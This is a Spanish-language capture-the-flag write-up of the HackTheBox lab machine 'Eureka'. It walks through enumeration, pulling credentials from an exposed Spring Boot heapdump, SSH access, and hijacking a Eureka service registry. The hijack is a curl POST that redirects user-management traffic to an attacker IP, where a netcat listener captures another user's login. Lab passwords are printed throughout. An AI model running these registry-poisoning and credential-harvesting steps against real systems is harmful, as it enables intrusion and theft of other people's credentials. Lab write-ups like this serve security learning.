

# EUREKA


# Enumeracion de Puertos, Servicios y Versiones

```bash
nmap -Pn -sCV -p- --min-rate 5000 10.10.11.66
```


observamos el dominio `http://furni.htb/` por lo que lo agregamos a nuestro archivo `/etc/hosts`

```bash
echo '10.10.11.66 furni.htb' >> /etc/hosts
```

a continuacion ingresamos al servicio web


observo una seccion para loguearnos y registrarno pero al hacer pruebas en ambos lados observamos el siguiente error


pero si reseteamos la maquina deja de aparecer este error y nos podemos registrar y loguear, pero no sirve de nada, es exactamente lo mismo asi que continuamos con el puerto que corre `tomcat`


esta protegido por credenciales, vamos a lanzar primero nuclei para analizar la web

```bash
nuclei -u http://furni.htb
```
```bash

                     __     _
   ____  __  _______/ /__  (_)
  / __ \/ / / / ___/ / _ \/ /
 / / / / /_/ / /__/ /  __/ /
/_/ /_/\__,_/\___/_/\___/_/   v3.4.6

		projectdiscovery.io

[INF] nuclei-templates are not installed, installing...
[INF] Successfully installed nuclei-templates at /home/darks/.local/nuclei-templates
[INF] Current nuclei version: v3.4.6 (outdated)
[INF] Current nuclei-templates version: v10.2.4 (latest)
[WRN] Scan results upload to cloud is disabled.
[INF] New templates added in latest release: 67
[INF] Templates loaded for current scan: 8146
[INF] Executing 7942 signed templates from projectdiscovery/nuclei-templates
[WRN] Loading 204 unsigned templates for scan. Use with caution.
[INF] Targets loaded for current scan: 1
[INF] Templates clustered: 1759 (Reduced 1652 Requests)
[INF] Using Interactsh Server: oast.online
[missing-sri] [http] [info] http://furni.htb ["https://cdnjs.cloudflare.com/ajax/libs/font-awesome/6.0.0-beta3/css/all.min.css"]
[waf-detect:nginxgeneric] [http] [info] http://furni.htb
[springboot-heapdump] [http] [critical] http://furni.htb/actuator/heapdump
[openssh-detect] [tcp] [info] furni.htb:22 ["SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.12"]
[springboot-caches] [http] [low] http://furni.htb/actuator/caches
[fingerprinthub-web-fingerprints:openfire] [http] [info] http://furni.htb
[tech-detect:font-awesome] [http] [info] http://furni.htb
[tech-detect:bootstrap] [http] [info] http://furni.htb
[tech-detect:nginx] [http] [info] http://furni.htb
[springboot-loggers] [http] [low] http://furni.htb/actuator/loggers
[options-method] [http] [info] http://furni.htb ["GET,HEAD,OPTIONS"]
[nginx-version] [http] [info] http://furni.htb ["nginx/1.18.0"]
[springboot-scheduledtasks] [http] [info] http://furni.htb/actuator/scheduledtasks
[spring-detect] [http] [info] http://furni.htb/error
[springboot-beans] [http] [low] http://furni.htb/actuator/beans
[springboot-actuator:available-endpoints] [http] [info] http://furni.htb/actuator ["health-path","sbom-id","scheduledtasks","sessions","heapdump","loggers-name","metrics-requiredMetricName","sbom","threaddump","caches-cache","conditions","configprops","features","refresh","self","serviceregistry","caches","env","health","info","loggers","mappings","metrics","sessions-sessionId","beans","configprops-prefix","env-toMatch"]
[springboot-env] [http] [low] http://furni.htb/actuator/env
[springboot-threaddump] [http] [low] http://furni.htb/actuator/threaddump
[springboot-configprops] [http] [low] http://furni.htb/actuator/configprops
[springboot-mappings] [http] [low] http://furni.htb/actuator/mappings
[http-missing-security-headers:cross-origin-embedder-policy] [http] [info] http://furni.htb
[http-missing-security-headers:content-security-policy] [http] [info] http://furni.htb
[http-missing-security-headers:permissions-policy] [http] [info] http://furni.htb
[http-missing-security-headers:clear-site-data] [http] [info] http://furni.htb
[http-missing-security-headers:cross-origin-opener-policy] [http] [info] http://furni.htb
[http-missing-security-headers:cross-origin-resource-policy] [http] [info] http://furni.htb
[http-missing-security-headers:strict-transport-security] [http] [info] http://furni.htb
[http-missing-security-headers:x-permitted-cross-domain-policies] [http] [info] http://furni.htb
[http-missing-security-headers:referrer-policy] [http] [info] http://furni.htb
[springboot-features] [http] [low] http://furni.htb/actuator/features
[form-detection] [http] [info] http://furni.htb
[springboot-conditions] [http] [low] http://furni.htb/actuator/conditions
[caa-fingerprint] [dns] [info] furni.htb
[INF] Scan completed in 3m. 33 matches found.
```

observamos que nuclei marca como critico springboot-heapdump, asi que investigamos un poco de que trata esto y conseguimos que:

>>> Un heapdump es un volcado (dump) de la memoria heap de una aplicación Java en un momento específico. Contiene un snapshot completo de todos los objetos que están vivos (en memoria) en la máquina virtual de Java (JVM) en ese instante.
>>> ⚠️ Riesgos de seguridad:
>>> Un heapdump puede contener datos extremadamente sensibles, como:
>>> 1) Contraseñas en texto claro
>>> 2) Tokens de sesión
>>> 3) Información del usuario
>>> 4) Conexiones a bases de datos
>>> 5) Claves API.
>>>
>>> Por eso, si una app Java (como una Spring Boot) expone el endpoint /actuator/heapdump sin autenticación, es una vulnerabilidad crítica.

sabiendo esto y observando que el endpoit `http://furni.htb/actuator/heapdump` existe, vemos un posible vector de ataque asi que accedemos a dicho endpoint


se nos descarga un archivo

```bash
file heapdump
```


si abrimos el archivo, no es leible, pero con `strings` podemos intentar extraer informacion en texto plano como posibles passwords

```bash
strings heapdump | grep 'password'
```


como vimos durante la investigacion es posible usar herramientas que extraen la informacion pero sin necesidad de usar algunas de ellas localizamos credenciales


>>> credenciales: password=0sc@r190_S0l!dP@sswd, user=oscar190

si intentamos usarlas para autenticarnos al puerto levantado con tomcat no son validas asi que testeamos por `ssh`

```bash
ssh oscar190@10.10.11.66
```


>>> logramos acceso!!

# Escalada de Privilegios

### User oscar190

este usuario no cuenta con permisos `sudo` y tampoco existen binarios en el sistema de los cuales aprovecharnos para una escalada... pero si revisamos las conexiones, vemos que esta disponible en el localhost el puerto `8761` que nos solicitaba autenticacion
Asi que lo que hare sera buscar indormacion de este puerto en el archivo previamente descargado

```bash
strings heapdump | grep '8761'
```


>>> credenciales= EurekaSrvr:0scarPWDisTheB3st

hemos conseguido credenciales!!! asi que accedemos!


como no tengo idea de lo que trate esto, investigamos un poco a ver de que trata

>>> Que es Eureka Server:
>>> es un componente fundamental en arquitecturas de microservicios basadas en Spring Cloud, diseñado para implementar el patrón Service Discovery (descubrimiento de servicios). Funciona como un registro centralizado donde los microservicios pueden registrarse y descubrir otros servicios dinámicamente, sin necesidad de configuraciones estáticas.

tambien conseguimos un articulo que habla de como podemos abusar de esto creando un microservicio falso

>>> https://engineering.backbase.com/2023/05/16/hacking-netflix-eureka

pero el objetivo de nosotros no sera crear un micro-servicio falso sino crear una instancia bajo el micro-servicio `USER-MANAGEMENT-SERVICE`.
Para crear la instancia lo hacemos tal cual como si crearamos un micro-servicio, manejamos la misma peticion del articulo.

```bash
POST /eureka/apps/WEBSERVICE HTTP/1.1
Accept: application/json, application/*+json
Accept-Encoding: gzip
Content-Type: application/json
User-Agent: Java/11.0.10
Host: 127.0.0.1:8088
Connection: keep-alive
Content-Length: 1015

{"instance":{"instanceId":"host.docker.internal:webservice:8082","app":"WEBSERVICE","appGroupName":null,"ipAddr":"192.168.2.1","sid":"na","homePageUrl":"http://host.docker.internal:8082/","statusPageUrl":"http://host.docker.internal:8082/actuator/info","healthCheckUrl":"http://host.docker.internal:8082/actuator/health","secureHealthCheckUrl":null,"vipAddress":"webservice","secureVipAddress":"webservice","countryId":1,"dataCenterInfo":{"@class":"com.netflix.appinfo.InstanceInfo$DefaultDataCenterInfo","name":"MyOwn"},"hostName":"host.docker.internal","status":"UP","overriddenStatus":"UNKNOWN","leaseInfo":{"renewalIntervalInSecs":30,"durationInSecs":90,"registrationTimestamp":0,"lastRenewalTimestamp":0,"evictionTimestamp":0,"serviceUpTimestamp":0},"isCoordinatingDiscoveryServer":false,"lastUpdatedTimestamp":1630906180645,"lastDirtyTimestamp":1630906182808,"actionType":null,"asgName":null,"port":{"$":8082,"@enabled":"true"},"securePort":{"$":443,"@enabled":"false"},"metadata":{"management.port":"8082"}}}
```

ahora vamos a identificar el micro-servicio:


>>> 'USER-MANAGEMENT-SERVICE'

ahora vamos a extraer la informacion del micro-servicio

```bash
curl http://furni.htb:8761/eureka/apps/USER-MANAGEMENT-SERVICE -u EurekaSrvr:0scarPWDisTheB3st
```
```bash
<application>
  <name>USER-MANAGEMENT-SERVICE</name>
  <instance>
    <instanceId>localhost:USER-MANAGEMENT-SERVICE:8081</instanceId>
    <hostName>localhost</hostName>
    <app>USER-MANAGEMENT-SERVICE</app>
    <ipAddr>10.10.11.66</ipAddr>
    <status>UP</status>
    <overriddenstatus>UNKNOWN</overriddenstatus>
    <port enabled="true">8081</port>
    <securePort enabled="false">443</securePort>
    <countryId>1</countryId>
    <dataCenterInfo class="com.netflix.appinfo.InstanceInfo$DefaultDataCenterInfo">
      <name>MyOwn</name>
    </dataCenterInfo>
    <leaseInfo>
      <renewalIntervalInSecs>30</renewalIntervalInSecs>
      <durationInSecs>90</durationInSecs>
      <registrationTimestamp>1752362354001</registrationTimestamp>
      <lastRenewalTimestamp>1752367557204</lastRenewalTimestamp>
      <evictionTimestamp>0</evictionTimestamp>
      <serviceUpTimestamp>1752362354001</serviceUpTimestamp>
    </leaseInfo>
    <metadata>
      <management.port>8081</management.port>
    </metadata>
    <homePageUrl>http://localhost:8081/</homePageUrl>
    <statusPageUrl>http://localhost:8081/actuator/info</statusPageUrl>
    <healthCheckUrl>http://localhost:8081/actuator/health</healthCheckUrl>
    <vipAddress>USER-MANAGEMENT-SERVICE</vipAddress>
    <secureVipAddress>USER-MANAGEMENT-SERVICE</secureVipAddress>
    <isCoordinatingDiscoveryServer>false</isCoordinatingDiscoveryServer>
    <lastUpdatedTimestamp>1752362354001</lastUpdatedTimestamp>
    <lastDirtyTimestamp>1752362353272</lastDirtyTimestamp>
    <actionType>ADDED</actionType>
  </instance>
```

no haremos uso de todos los datos aqui expuestos sino solo de los necesarios para crear una instancia, aunque es posible hacer uso de todos los datos en la peticion que enviemos

```bash
curl -X POST http://127.0.0.1:8761/eureka/apps/USER-MANAGEMENT-SERVICE \
  -u 'EurekaSrvr:0scarPWDisTheB3st' \
  -H 'Content-Type: application/json' \
  -d '{
    "instance": {
      "instanceId": "USER-MANAGEMENT-SERVICE:8081",
      "app": "USER-MANAGEMENT-SERVICE",
      "ipAddr": "10.10.14.160",
      "port": {"$": 8081, "@enabled": "true"},
      "status": "UP",
      "dataCenterInfo": {
        "@class": "com.netflix.appinfo.InstanceInfo$DefaultDataCenterInfo",
        "name": "MyOwn"
      }
    }
  }'
```

esto creara una instancia al envia la peticion, haciendo que parte del trafico sea dirigido a nuestra maquina atacante por el puerto `8081` por lo que debemos estar escuchando por este puerto antes de enviar la peticion

```bash
nc -lnvp 8081
```

enviamos la peticion desde la sesion `ssh` del usuario `oscar190` y vemos que se actualiza `eureka` con la nueva instancia


tambien recibimos trafico por donde estamos en escucha con netcat


capturamos credenciales nuevas y para verlas claramente sin el urlencodeo usamos `urlencode`


ahora tenemos en claro las credenciales `miranda.wise:IL!veT0Be&BeT0L0ve`

que si testeamos la password contra el usuario de sistema `miranda-wise` logramos loguearnos.


### esquema del ataque


